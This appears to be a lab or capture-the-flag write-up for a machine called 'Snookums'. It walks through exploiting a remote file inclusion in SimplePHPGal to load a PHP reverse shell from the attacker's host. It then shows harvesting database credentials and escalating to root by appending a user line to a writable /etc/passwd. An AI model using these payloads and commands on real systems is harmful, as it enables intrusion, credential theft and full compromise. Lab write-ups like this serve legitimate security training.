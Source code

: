 # Snookums

### Enumeration

```
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Simple PHP Photo Gallery
```

SimplePHPGal 0.8

SimplePHPGal 0.7 - Remote File Inclusion

[https://www.exploit-db.com/exploits/48424](https://www.exploit-db.com/exploits/48424)

```
http://192.168.112.58/image.php?img=http://192.168.49.112

$ nc -nvlp 80                                   
listening on [any] 80 ...
connect to [192.168.49.112] from (UNKNOWN) [192.168.112.58] 35926
GET / HTTP/1.0
Host: 192.168.49.112
```

RFI on 0.8 version too.

### Initial Access

[https://www.revshells.com/](https://www.revshells.com) - PHP Ivan Sincek - 192.168.49.112 22 /bin/bash -> shell.php

```
http://192.168.112.58/image.php?img=http://192.168.49.112/shell.php
```

### Lateral Movement

```
$ cat db.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', '[REDACTED]');
define('DBNAME', 'SimplePHPGal');
?>

mysql> select * from users;
select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | [REDACTED]=                                  |
| michael  | [REDACTED]==                                 |
| serena   | [REDACTED]==                                 |
+----------+----------------------------------------------+
3 rows in set (0.01 sec)
```

There are base64 encoded passwords.

```
$ su michael
```

### PrivEsc

```
[michael@snookums ~]$ ls -lha /etc/passwd
-rw-r--r--. 1 michael root 1.2K Jun 11  2020 /etc/passwd
```

There is writable system file.

```
[michael@snookums ~]$ echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> /etc/passwd
ch:pass123
```
